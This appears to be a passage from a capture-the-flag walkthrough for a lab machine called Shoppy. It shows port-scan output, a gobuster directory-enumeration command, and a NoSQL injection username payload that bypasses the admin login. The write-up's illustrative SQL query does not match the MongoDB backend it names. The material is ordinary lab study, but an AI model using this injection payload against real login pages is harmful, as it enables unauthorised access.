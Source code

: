 ```bash
|   GetRequest, HTTPOptions:                                                   
|     HTTP/1.0 200 OK                                                          
|     Content-Type: text/plain; version=0.0.4; charset=utf-8              
|     Date: Thu, 12 Jan 2023 10:27:41 GMT                                 
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter                 
|     go_gc_cycles_automatic_gc_cycles_total 133                          
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter                    
|     go_gc_cycles_forced_gc_cycles_total 0                               
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles. 
|     TYPE go_gc_cycles_total_gc_cycles_total counter                     
|     go_gc_cycles_total_gc_cycles_total 133
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 4.0557e-05
|     go_gc_duration_seconds{quantile="0.25"} 6.6746e-05
|_    go_gc
```


## Dir

```bash
gobuster dir -u http://shoppy.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 20 -e -o shoppy.gobuster -r
```

Result
```bash
http://shoppy.htb/admin                (Status: 200) [Size: 1074]
http://shoppy.htb/login                (Status: 200) [Size: 1074]
```


# User Flag


## NOSQLI

After looking at 404 pages error messages
The application is node.js so DBMS is most likely NOSQL MongoDB

username:
```
admin'||'1==1
```
- Login Success

Query may look like:
```
SELECT * from users WHERE username='admin' || '1==1' AND password='xxx'"
```
